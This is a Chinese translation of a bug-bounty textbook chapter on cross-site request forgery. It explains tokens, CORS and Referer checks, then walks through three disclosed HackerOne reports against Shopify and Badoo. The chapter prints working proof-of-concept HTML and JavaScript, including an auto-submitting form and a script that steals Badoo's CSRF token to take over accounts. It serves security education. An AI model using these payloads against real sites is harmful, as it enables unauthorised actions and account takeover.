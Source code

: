 ## **八、跨站請求偽造**

>作者：Peter Yaworski
>
>譯者：飛龍
>
>協議：CC BY-NC-SA 4.0


## **描述**

跨站請求偽造，或CSRF攻擊，在惡意網站，電子郵件，即使消息，應用以及其它，使用戶的Web瀏覽器執行其它站點上的一些操作，並且用戶已經授權或登錄了該站點時發生。通常會在用戶不知道操作已經執行的情況下發生。

CSRF 攻擊的影響取決於收到操作的站點。這裡是一個例子：
1. Bob 登錄了它的銀行帳戶，執行了一些操作，但是沒有登出。
2. Bob 檢查了它的郵箱，並點擊了一個陌生站點的鏈接。
3. 陌生站點向 Bob 銀行站點發送請求來進行轉賬，並傳遞第一步中，保存 Bob 銀行會話的 Cookie 信息。
Bob 的銀行站點收到了來自陌生（惡意）站點的請求，沒有使用 CSRF Token 的情況下處理了轉賬。

更有意思的是這個想法，也就是惡意網站的鏈接可以包含有效的 HTML，`<imgsrc="www.malicious_site.com">`，並且並不需要 Bob 點擊鏈接。如果 Bob 的設備（例如瀏覽器）渲染了這個圖片，它會向`malicious_site.com`發送請求，來完成 CSRF 攻擊。
<p>
現在，知道了 CSRF 的危險之後，它們可以以多種方式防範。最流行的方式大概是 CSRF Token，它必須隨著潛在的資料修改氣你去一起提交（例如 POST 請求）。這裡，Web 應用（例如 Bob 的銀行）會生成一個兩部分的 Token，一個 Bob 會收到，另一個由應用保管。
<p>
當 Bob 試圖提交轉賬請求時，它就需要提交 Token，銀行會驗證它這一邊的 Token。
<p>
現在，對於 CSRF 和 CSRF Token 來說，跨域資源共享似乎越來越普遍了。或者只是我注意到是這樣。
本質上，CORS 限制了資源，包括 JSON 響應，被外域訪問。換句話說，當 CORS 用於保護站點時，你就不能編寫 JavaScript 來呼叫目標應用，讀取響應或者進行另一個呼叫，除非目標站點允許。
<p>

似乎這非常令人混亂，使用 JavaScript，嘗試呼叫`HackerOne.com/activity.json`，讀取響應並進行二次呼叫。你也會在下面的例子 #3 看到它的重要性，以及潛在的原理。

<p>

最後，重要的是要記住（感謝 Jobert Abma 補充），並不是每個不帶有 CSRF Token 的請求都帶有 CSRF 問題。一些站點可能執行額外的檢查，例如比較 Referer 協議頭（雖然可能出錯，並且有一些繞過它的案例）。它是一個字段，標識了鏈接到被請求資源的頁面地址。換句話說，如果 POST 呼叫中的 Referer 並不來源於收到 HTTP 請求的相同站點，站點可能不允許該呼叫，因此能夠完成和驗證 CSRF Token 的相同操作。此外，不是每個站點在創建或者定義 Token 時都使用csrf術語。例如，在 Badoo 它使用rt參數，我們下面會討論。

>連結
>
>[查看OWASP 測試指南。](https://www.owasp.org/index.php/Testing_for_CSRF_%28OTG-SESS-005%29)


---

## **示例**

## **1. Shopify 導出已安裝的用戶**

```
難度：低

URL：https://app.shopify.com/services/partners/api_clients/XXXX/export_installed_users
報告鏈接：https://hackerone.com/reports/96470
報告日期：2015.10.29
獎金：$500
描述：
```
Shopify 的 API 提供了一個終端，用於導出已安裝用戶的列表，通過上面給出的 URL。在站點能夠呼叫該終端，並且讀取信息的地方存在漏洞，因為 Shopify 在該呼叫中並沒有包含任何 CSRF Token 驗證。所以，下面的 HTML 程式碼可以用於代表任何未知受害者提交表單。

```html
<html>
    <head><title>csrf</title></head>
    <body onLoad="document.forms[0].submit()">
        <form action="https://app.shopify.com/services/partners/api_clients/1105664/\ export_installed_users" method="GET">
        </form>
    </body>
</html>
```
這裡，通過僅僅瀏覽站點，JavaScript 就會提交表單，它實際上包含 Shopify API 的 GET 請求，使用受害者的瀏覽器，並提供 Shopify 的 Cookie。

>重要結論
>
>擴展你的攻擊領域，並從站點轉向它的 API 終端。 API 提供了極大的漏洞可能性，所以最好牢記他，尤其是當你知道 API 
>可能開發完畢，或者在站點實際開發之後可用的時候。


---

## **2. Shopify Twitter 斷開連接**

```
難度：低

URL：https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect
報告鏈接：https://hackerone.com/reports/111216
報告日期：2016.1.17
獎金：$500
```
## **描述：**

Shopify 提供了 Twitter 的繼承，來允許店主轉推它們的商品。與之相似，也提供了功能來斷開推特帳戶和被連接商店的鏈接。
<p>
斷開 Twitter 帳戶的 URL 寫在了上面。當進行呼叫時，Shopify 不驗證 CSRf Token，這可能會允許惡意人員代表受害者進行 GET 呼叫，因此斷開受害者的商店與 Twitter 的連接。
<p>
在提供這份報告的時候，WeSecureApp 提供了下面的漏洞請求示例 - 要注意下面的img標籤的使用，它對漏洞 URL 進行呼叫：

```
GET /auth/twitter/disconnect HTTP/1.1
Host: twitter-commerce.shopifyapps.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:43.0) Gecko/2010010\ 1 Firefox/43.0
Accept: text/html, application/xhtml+xml, application/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://twitter-commerce.shopifyapps.com/account
Cookie: _twitter-commerce_session=REDACTED
Connection: keep-alive
```
由於瀏覽器進行 GET 請求來獲取給定 URL 處的圖片，並且不驗證任何 CSRF Token ，用戶的商店現在已斷開連接：

```html
<html>
    <body>
        <img src="https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect">
    </body>
</html>
```

>重要結論
>
>這種情況下，這個漏洞可以使用代理服務器來發現，例如 Burp 或者 Firefox 的 Tamper Data，來觀察發送給 Shopify 
>的請求，並主要到這個請求使用 GET 方式來執行。由於這是個破壞性操作，而 GET 請求不應該修改任何服務器上的資料，這應該是一些需要關注的事情。

---

## **3. Badoo 帳戶的完整控制**

```
難度：中

URL：https://badoo.com
報告鏈接：https://hackerone.com/reports/127703
報告日期：2016.4.1
獎金：$852
描述：
```
如果你仔細檢查 Badoo ，你會發現，它們通過包含 URL 參數`rt`來防禦 CSRF，它只有 5 個位數（至少在我寫這篇的時候）。雖然我在 Badoo 入駐 HackerOne 的時候就注意到了，我並沒有找到利用它的方式，但是`zombiehelp54`找到了。
<p>
	
發現`rt`參數以及其值之後，它也注意到了，參數一戶在所有 JSON 響應中都返回。不幸的是，這並沒有什麼幫助，因為 CORS 保護了 Badoo，攻擊者無法讀取這些響應，所以它繼續挖掘。
<p>

最終，文件`https://eu1.badoo.com/worker-scope/chrome-service-worker.js`包含了`rt`值。更好的是，這個文件可以由攻擊者任意讀取，而不需要受害者做什麼，除了瀏覽這個惡意頁面。這裡是它提供的程式碼。

```html
<html>
<head>
<title>Badoo account take over</title>
<script src=https://eu1.badoo.com/worker-scope/chrome-service-worker.js?ws=1></s\ cript>
</head>
<body>
<script>
function getCSRFcode(str) {
    return str.split('=')[2];
}
    window.onload = function(){
    var csrf_code = getCSRFcode(url_stats);
    csrf_url = 'https://eu1.badoo.com/google/verify.phtml?code=4/nprfspM3yfn2SFUBear08KQaXo609JkArgoju1gZ6Pc&authuser=3&session_state=7cb85df679219ce71044666c7be3e037ff54b560..a810&prompt=none&rt='+ csrf_code;
    window.location = csrf_url;
};
</script>
```
本質上，當受害者加載此頁面時，它會呼叫Badoo 的腳本，為用戶獲取rt參數，之後代表受害者進行呼叫，這裡，它將受害者的帳戶鏈接到了攻擊者的，本上上完成了帳戶的控制。

>重要結論
>
>無風不起浪。這裡，攻擊者注意到了`rt`參數在不同位置返回，特別是 JSON 響應，
>因此，它正確猜測了，它可能出現在一些可以利用的地方，這裡是 JS 文件。
>繼續幹吧，如果你覺得一些東西可能會發生，一定要繼續挖掘。當你訪問目標站點或應用時，使用 Burp 檢查所有被呼叫的資源。重要結論
>
>無風不起浪。這裡，攻擊者注意到了rt參數在不同位置返回，特別是 JSON 響應，因此，它正確猜測了，
>它可能出現在一些可以利用的地方，這裡是 JS 文件。
>繼續幹吧，如果你覺得一些東西可能會發生，一定要繼續挖掘。當你訪問目標站點或應用時，使用 Burp 檢查所有被呼叫的資源。

## **總結**

<p>

CSRF 表示另一個攻擊向量，並且可能在受害者不知道，或者不主動執行操作的情況下發生。 CSRF 漏洞的發現可能需要一些機智，同樣，也需要測試任何東西的渴望。
<p>
	
通常，如果站點執行 POST 請求，Web 表單都統一由應用框架保護，例如 Rails，但是 API 又是另外一個事情。例如， Shopify 使用了 RoR 編寫，它對所有表單默認提供了 CSRF 保護（當然也可以關掉）。但是，顯而易見，這對於使用框架創建的 API 不一定成立。最後，一定要觀察任何通過 GET 請求執行的，修改服務器資料的呼叫（例如刪除操作）。